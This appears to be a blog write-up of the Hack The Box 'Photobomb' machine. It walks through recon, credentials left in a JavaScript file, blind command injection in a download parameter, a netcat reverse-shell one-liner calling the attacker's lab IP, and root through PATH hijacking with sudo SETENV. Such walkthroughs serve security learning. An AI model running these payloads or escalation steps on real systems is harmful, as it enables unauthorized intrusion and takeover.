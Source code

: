 ```yaml
---
layout: post
title: Hack The Box - Photobomb Writeup
date: 2024-06-12 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![photobombBadge.png](/assets/img/Photobomb/photobombBadge.png)

## Summary

Inspecting website source code revealed interesting `javascript` file `photobomb.js`. This file contains plain text credentials which grants us access to `/printer` directory. Here we can find download functionality which allows us to download photos from gallery. Intercepting download request with `Burp` and testing parameters reveals that `filetype` parameter is vulnerable to blind command injection. Exploiting this I was able to get reverse shell as user `wizard`. User`wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally, `wizard` has `SETENV` which gives him permission to modify certain environment variables like `PATH`.  Inspecting `cleanup.sh` contents revealed that script is running `find` binary without specified path. I was able to leverage this to hijack path with the use of `SETENV` and trick system to execute my own malicious `find` binary which spawned a root shell. 
 
___
## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |

#### Port 80

##### Technology

```
nginx 1.18.0
```

##### Website

![[Hack The Box/Boxes/Easy/Photobomb/Screenshots/80.png]]

Clicking on link prompts us for credentials. 

![80.png](/assets/img/Photobomb/80.png)

I tried few default credentials but none of them were valid so I moved on. 
###### Source Code

Inspecting website source code revealed interesting `javascript` file `photobomb.js`.

![80source.png](/assets/img/Photobomb/80source.png)

###### photobomb.js

Looking at the contents of this file we can see comment with plain text credentials for accessing `/printer` directory.

![photobombJS.png](/assets/img/Photobomb/photobombJS.png)

```
pH0t0 : b0Mb!
```

##### /printer directory

With the access to `/printer` directory we are able to download photo from gallery. 

![80printerFinal.png](/assets/img/Photobomb/80printerFinal.png)


___
## Initial Foothold

### Blind Command Injection 

First I intercepted download request using `Burp` to test parameters. Testing `filetype` parameter for command injection throws different error than for other parameters. 

![burpTesting.png](/assets/img/Photobomb/burpTesting.png)

To test if `filetype` parameter is vulnerable to blind command injection I tried this URL encoded payload:

![decoder.png](/assets/img/Photobomb/decoder.png)

![burpRequestPing.png](/assets/img/Photobomb/burpRequestPing.png)

Running `tcpdump` to see all the traffic on my virtual interface revealed incoming `icmp` request from victim host. 

```
sudo tcpdump -i tun0 -vv
```

![tcpdump.png](/assets/img/Photobomb/tcpdump.png)

To further exploit this I used URL encoded reverse shell payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.38 7003 >/tmp/f
```

After submitting payload we get reverse shell as user `wizzard`

![reverseShell.png](/assets/img/Photobomb/reverseShell.png)

### Upgrading TTY

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
```
```
stty raw -echo && fg
```
### User.txt

![userFlag.png](/assets/img/Photobomb/userFlag.png)
_____
## Privilege Escalation

### System Enumeration

We can see that user `wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally user has `SETENV` which gives him permission to modify certain environment variables like `PATH`. 

```
sudo -l
```

![[Hack The Box/Boxes/Easy/Photobomb/Screenshots/sudoL.png]]

Inspecting `cleanup.sh` we can see that path for `find` is not specified which can be abused by hijacking path. 

![cleanup.png](/assets/img/Photobomb/cleanup.png)

First I created new `find` binary in `/tmp` directory. New binary is simple bash script that will spawn shell. 

![find.png](/assets/img/Photobomb/find.png)

Adding permissions to newly created `find` binary. 

```
chmod 777 find
```

User has `SETENV` so we can specify path to `/tmp` by adding `PATH=/tmp:$PATH` to `sudo` command. Now when we run `/opt/cleanup.sh` with `sudo` and `PATH` specified to `/tmp` directory, system will first look for `find` binary in the `/tmp` directory where will find our own malicious `find` binary and execute it with `sudo` privileges.

```
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![escalation.png](/assets/img/Photobomb/escalation.png)
___
## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Photobomb/rootFlag.png)
